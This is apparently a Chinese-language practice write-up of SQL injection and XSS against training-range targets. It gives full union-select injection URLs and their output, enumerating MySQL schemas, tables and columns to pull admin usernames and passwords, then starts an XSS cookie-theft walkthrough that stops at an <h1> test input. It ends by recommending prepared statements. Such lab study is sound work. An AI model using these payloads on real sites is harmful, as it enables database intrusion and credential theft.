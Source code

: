 # sql注入

## 通过sql注入获取管理员账号密码

### 环境
靶场：http://117.167.136.245:10180/
工具：chrome , navicat



### 流程

#### 1.进入网站 
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject1.png)

#### 2.寻找可能注入的点
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject2.png)

#### 3.写sql，进行注入

**如果是mysql，需要特别关注information_schema这个库，存储了这个mysql的所有信息**

##### a.获取所有数据库

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(schema_name) from information_schema
.SCHEMATA)

information_schema,maoshe,test

##### b.根据数据库获取所有表

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(table_name) from information_schema
.TABLES where table_schema='maoshe')

admin,dirs,news,xss

##### c.根据表获取所有字段

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(column_name) from information_schema
.columns where table_schema='maoshe' and table_name='admin')

Id,username,password

##### d.根据字段获取对应字段的值,这里我获取admin这张表的第一条数据

http://117.167.136.245:10180/?id=1 and 1=2 union select 1, (select GROUP_CONCAT(username,',',`password`) from admin
 limit 1)
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/sql-inject3.png)

### 总结

1.关注mysql的information_schema库。

2.**服务对数据库进行操作的时候必须用预编译（PrepareStatement），防止sql注入**


# XSS

1、xss危害

2、xss原理
xss 是将用户输入的数据当做HTML语句放入页面上执行。

3、xss种类

反射型： 你提交的数据成功的实现了XSS，但是仅仅是对你这次访问产生了影响，是非持久性的。

存储型： 你提交的数据成功的实现了XSS，并且存入数据库，别人访问的时候也会触发。

DOM型：

4、利用xss获取目标cookie

### 环境：

靶场：http://59.63.200.79:8004/Feedback.asp

工具：chrome

### 流程

发现一个客户反馈页面，其中包含很多输入框，我们所有输入框输入【<h1>111</h1>】 输入内容包含html的【h1】标签
![](https://demonself.oss-cn-hangzhou.aliyuncs.com/xss.png)
